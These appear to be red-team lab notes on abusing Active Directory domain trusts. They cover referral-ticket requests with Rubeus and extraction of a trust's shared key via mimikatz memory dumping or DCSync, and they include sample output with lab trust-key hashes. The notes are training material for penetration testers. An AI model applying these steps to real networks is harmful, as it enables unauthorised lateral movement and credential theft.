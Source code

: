 Next, use that TGT to request a referral ticket from the current domain to the target domain.

[[Rubeus#asktgs]]

Finally, use this inter-realm ticket to request TGS's in the target domain.  Here, I'm requesting a ticket for CIFS `/service:cifs/dc.dev-studio.com`.

[[Rubeus#asktgs]]

```
beacon> run klist
```


### One-Way Outbound

Remember that if Domain A trusts Domain B, users in Domain B can access resources in Domain A; but users in Domain A should not be able to access resources in Domain B.  If we're in Domain A, then it's by design that we should not be able to access Domain B.  An outbound trust exists between cyberbotic.io and msp.org.  The direction of trust is such that cyberbotic.io trusts msp.org (so users of msp.org can access resources in cyberbotic.io).

Because DEV has a trust with CYBER, we can query the trusts that it has by adding the `-Domain` parameter.

[[PowerView#Get-DomainTrust]]

We can still partially exploit this trust and obtain "domain user" access from CYBER to MSP by leveraging the shared credential for the trust.  Both domains in a trust relationship store a shared password (which is automatically changed every 30 days) in a Trusted Domain Object (TDO).  These objects are stored in the system container and can be read via LDAP.  Here we see that the DC in CYBER has two TDOs for its trusts with DEV and MSP.

[[ADSearch#Enumerate Trusted Domains]]

There are two options for obtaining the key material.  One is to move laterally to the DC itself and dump from memory.

[[mimikatz#trust]]

The second is to use DCSync with the TDO's GUID.

[[PowerView#Get-DomainObject]]

[[mimikatz#dcsync#For Domain and GUID]]

```
[DC] 'cyberbotic.io' will be the domain
[DC] 'dc-1.cyberbotic.io' will be the DC server
[DC] Object with GUID '{b93d2e36-48df-46bf-89d5-2fc22c139b43}'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : msp.org

** TRUSTED DOMAIN - Antisocial **

Partner              : msp.org
 [ Out ] MSP.ORG -> CYBERBOTIC.IO
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496

 [Out-1] MSP.ORG -> CYBERBOTIC.IO
    * 8/16/2022 9:49:17 AM - CLEAR   - 93 8e aa 1f 5f 6e 2a cc 51 7d d4 a8 07 f2 f0 2c a3 e0 20 3b 24 32 68 58 0d f8 ad cc
	* aes256_hmac       5db44be4317433d5ab1d3dea5925126d295d3e21c9682bca7fef76bc5a878f30
	* aes128_hmac       9851d2d80411e6d40122005d1c361579
	* rc4_hmac_nt       f3fc2312d9d1f80b78e67d55d41ad496
```